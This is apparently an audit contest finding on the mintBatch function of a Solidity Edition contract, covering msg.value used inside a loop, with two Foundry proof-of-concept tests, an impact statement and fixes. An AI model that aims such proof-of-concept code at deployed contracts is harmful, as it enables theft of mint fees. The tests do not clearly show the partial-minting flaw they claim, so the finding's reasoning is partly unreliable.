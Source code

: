 Clever Lemon Starling

high

# [H-2] Use of `msg.value` inside a loop in `Edition.sol` allows partial minting and unnecessary gas consumption (Incorrect Minting Fees + Gas Wastage + Partial Minting)

## Summary
The `mintBatch` function in the Edition contract allows minting multiple tokens for different works in a single transaction. However, it uses `msg.value` inside the loop to collect mint fees for each token being minted. This is problematic because `msg.value` represents the total amount of Ether sent with the transaction, not the individual amounts for each token.

## Vulnerability Detail
Add the following Proof of Codes to `Edition.t.sol` and run them using `forge test --mt testExploit_MintBatch` and `forge test --mt testExploit_MintBatch_LargeQuantity`

```javascript 
 function testExploit_MintBatch() public {
        uint256[] memory tokenIds = new uint256[](2);
        tokenIds[0] = 1;
        tokenIds[1] = 2;

        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1;
        amounts[1] = 1;

        // Mint a new token for token ID 2
        edition.publish(
            address(2),
            10,
            0,
            0,
            new Node[](0),
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.02 ether,
                revshareBps: 2500,
                royaltyBps: 250
            }),
            Metadata({label: "Another Work", uri: "ipfs.io/another-work", data: new bytes(0)})
        );

        // Attempt to mint only the first token with sufficient msg.value
        uint256[] memory singleTokenId = new uint256[](1);
        singleTokenId[0] = tokenIds[0];

        uint256[] memory singleAmount = new uint256[](1);
        singleAmount[0] = amounts[0];

        edition.mintBatch{value: 0.0106 ether}(
            address(1), singleTokenId, singleAmount, new bytes(0)
        );

        // Assert that only the first token was minted
        assertEq(edition.totalSupply(1), 1);
        assertEq(edition.totalSupply(2), 0);
    }
```
This test case demonstrates an exploit because it shows that the `mintBatch` function allows partial minting of tokens when the provided `msg.value` is sufficient for a subset of the tokens, even though the original intent was to mint all the specified tokens. This behavior can lead to inconsistencies in token balances and violate the expected functionality of the mintBatch function.

```javascript 
function testExploit_MintBatch_LargeQuantity() public {
    uint256 numTokens = 100;
    uint256[] memory tokenIds = new uint256[](numTokens);
    uint256[] memory amounts = new uint256[](numTokens);

    for (uint256 i = 0; i < numTokens; i++) {
        tokenIds[i] = i + 1;
        amounts[i] = 1;

        // Generate a unique address for each token
        address creator = address(uint160(uint256(keccak256(abi.encodePacked("creator", i)))));

        // Mint a new token for each token ID
        edition.publish(
            creator,
            10,
            0,
            0,
            new Node[](0),
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500,
                royaltyBps: 250
            }),
            Metadata({label: string(abi.encodePacked("Work ", i + 1)), uri: string(abi.encodePacked("ipfs.io/work-", i + 1)), data: new bytes(0)})
        );
    }

    // Attempt to mint a subset of tokens with insufficient msg.value
    uint256 numTokensToMint = 50;
    uint256[] memory subsetTokenIds = new uint256[](numTokensToMint);
    uint256[] memory subsetAmounts = new uint256[](numTokensToMint);

    for (uint256 i = 0; i < numTokensToMint; i++) {
        subsetTokenIds[i] = tokenIds[i];
        subsetAmounts[i] = amounts[i];
    }

    uint256 insufficientValue = 0.4 ether; // Insufficient value for minting 50 tokens
    
    // Expect a revert due to insufficient funds
    vm.expectRevert();
    edition.mintBatch{value: insufficientValue}(address(this), subsetTokenIds, subsetAmounts, new bytes(0));

    // Assert that no tokens were minted due to the revert
    for (uint256 i = 0; i < numTokens; i++) {
        uint256 tokenId = i + 1;
        uint256 expectedSupply = 0;
        assertEq(edition.totalSupply(tokenId), expectedSupply);
    }
}
```
This test case demonstrates an exploit because it shows that the `mintBatch` function continues to process the minting loop until it runs out of funds, even when the provided `msg.value` is insufficient. This behavior leads to unnecessary computation and gas consumption before the transaction ultimately reverts. Malicious users could exploit this vulnerability by repeatedly calling the mintBatch function with a large number of tokens and insufficient `msg.value`, causing gas wastage and potentially disrupting the contract's availability.

## Impact
Due to the use of msg.value inside the loop, the `mintBatch` function allows minting tokens partially when provided with sufficient `msg.value` for a subset of the tokens. This means that users can mint tokens without paying the full required mint fees for all the tokens they are attempting to mint. As a result, the contract may collect incorrect mint fees, potentially leading to a loss of funds for the contract owner.

The incorrect behavior of the `mintBatch` function can lead to inconsistencies in token balances and disrupt the expected functionality of the contract.

Also, The function continues to process the minting loop until it runs out of funds, leading to unnecessary computation and gas consumption. The unnecessary computation and gas consumption before the function reverts can be exploited by malicious users to cause gas wastage and potentially disrupt the contract's availability.
 
## Code Snippet

The Code containing this bug can be found in the `mintBatch()` function.

`mintBatch()` can be found here:
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol?plain=1#L304

Inside of the `mintBatch()` function, the msg.value is used here: https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol?plain=1#L311


## Tool used
Foundry
Manual Review

## Recommendation
There are two way to mitigate this:

1. Provide an explicit array of amounts alongside the receivers array, and check that the sum of all amounts matches `msg.value`.

2. The `mintBatch` function should be modified to validate the total mint fees against the provided `msg.value` before proceeding with the minting process. If the `msg.value` is insufficient to cover the total mint fees, the function should revert early to prevent partial minting and unnecessary computation.
